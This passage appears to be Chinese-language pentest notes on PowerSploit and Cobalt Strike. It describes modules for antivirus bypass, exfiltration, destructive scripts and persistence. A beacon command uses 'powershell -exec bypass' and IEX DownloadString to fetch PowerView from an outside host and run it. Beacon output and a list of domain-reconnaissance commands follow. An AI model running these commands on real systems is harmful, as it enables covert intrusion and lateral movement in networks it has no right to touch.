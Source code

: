   - 1. 无落地执行
    1. 远程执行
    1. 相比cmd更容易绕过系统防护,比cmd拥有更多权限

  - 模块说明:

  - ```cmd
    AntivirusBypass：发现杀毒软件的查杀特征。
    CodeExecution：在目标主机上执行代码。
    Exfiltration：目标主机上的信息搜集工具。
    Mayhem：蓝屏等破坏性脚本。
    Persistence：后面脚本(持久性控制)。
    Recon：以目标主机为跳板进行内网信息侦察。
    ScriptModification：在目标主机上创建或修改脚本。
    ```

  - 远程执行代码:-->`powershell`中`'`的单引号代表字面意思,双引号则可以引用字符内容.

  - 例如:`$name=zhangsan`,使用单引号输出则是:`'hello $name'`,使用双引号则是:`"hello zhangsan`"

  - ```cmd
    beacon> shell powershell.exe -exec bypass -c IEX(New-Object System.Net.Webclient).DownloadString('http://192.168.75.3:81/PowerSploit/Recon/PowerView.ps1');import-module .\PowerView.ps1;Get-NetShare
    [*] Tasked beacon to run: powershell.exe -exec bypass -c IEX(New-Object System.Net.Webclient).DownloadString('http://192.168.75.3:81/PowerSploit/Recon/PowerView.ps1');import-module .\PowerView.ps1;Get-NetShare
    [+] host called home, sent: 214 bytes
    [+] received output:
    
    Name                               Type Remark              ComputerName       
    ----                               ---- ------              ------------       
    ADMIN$                       2147483648 远程管理            localhost          
    C$                           2147483648 默认共享            localhost          
    IPC$                         2147483651 远程 IPC            localhost
    ```

  - 将当前模块导入到CS中(`Cobalt Strike`)

  - 命令:`powershell-import 模块名`,这里导入`PowerView`

  - ```cmd
    beacon> powershell-import PowerView.ps1
    [*] Tasked beacon to import: F:\cobaltstrike_4.4\PowerView.ps1
    [+] host called home, sent: 145560 bytes
    ```

  - 导入后可以使用如下命令:`powershell 命令`

  - ```cmd
    Get-NetDomain 获取当前用户所在的域名称
    Get-NetUser 返回所有用户详细信息
    Get-NetDomainController 获取所有域控制器
    Get-NetComputer 获取所有域内机器详细信息
    Get-NetOU 获取域中OU信息
    Get-NetGroup 获取所有域内组和组成员信息
    Get-NetFileServer 根据SPN获取当前域使用的文件服务器
    Get-NetShare 获取当前域内所有网络共享
    Get-NetSession 获取在指定服务器存在的Session信息
    Get-NetRDPSession 获取在指定服务器存在的远程连接信息
    Get-NetProcess 获取远程主机的进程信息
    Get-UserEvent 获取指定用户日志信息
    Get-ADObject 获取活动目录的对象信息
    Get-NetGPO 获取域所有组策略对象
    Get-DomainPolicy 获取域默认或域控制器策略
    Invoke-UserHunter 搜索网络中域管理员正在使用的主机
    Invoke-ProcessHunter 查找域内所有机器进程用于找到某特定用户
    Invoke-UserEventHunter 根据用户日志获取某域用户登陆过哪些域机器
    ```
